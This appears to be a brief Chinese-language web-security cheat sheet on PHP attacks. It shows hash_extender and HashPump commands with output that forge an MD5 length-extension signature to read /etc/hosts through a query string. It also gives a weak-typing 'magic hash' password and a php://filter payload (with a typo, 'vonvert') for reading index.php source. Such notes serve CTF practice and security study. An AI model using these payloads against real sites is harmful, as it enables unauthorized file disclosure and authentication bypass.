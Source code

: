 
# web基础

* php攻击
    - MD5 Length Extension Attack
    - ### 弱类型漏洞


## php攻击
###  MD5 Length Extension Attack
* 工具
1. hash_extender  
> https://github.com/iagox86/hash_extender
2. HashPump  
> https://github.com/bwall/HashPump

* 代码
```shell
$ ./hash_extender -f md5 -l 32 -d '/etc/hosts' -s 'f3d366138601b5afefbd4fc15731692e' -a '' --out-data-format=html
Type: md5
Secret length: 32
New signature: 1b17d9594eb404c97c5090b11660ac63
New string: %2fetc%2fhosts%80%00%00%00%00%00%00%00%00%00%00%00%00%00P%01%00%00%00%00%00%00

$ ~/Desktop/HashPump
$ hashpump -s f3d366138601b5afefbd4fc15731692e -d /etc/hosts -k 32 -a /etc/hosts 
75221e2e5cd1cd1c7694cbd386571ffe
/etc/hosts\x80\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00P\x01\x00\x00\x00\x00\x00\x00/etc/hosts


//最后构成
?filepath=%2fetc%2fhosts%80%00%00%00%00%00%00%00%00%00%00%00%00%00P%01%00%00%00%00%00%00%2fetc%2fhosts&sign=75221e2e5cd1cd1c7694cbd386571ffe
``` 

### 弱类型漏洞

* 弱类型漏洞之 ==

> password=240610708


### php流
* 漏洞
> php://filter
> ?file=php://filter/vonvert.base64-encode/resource=index.php


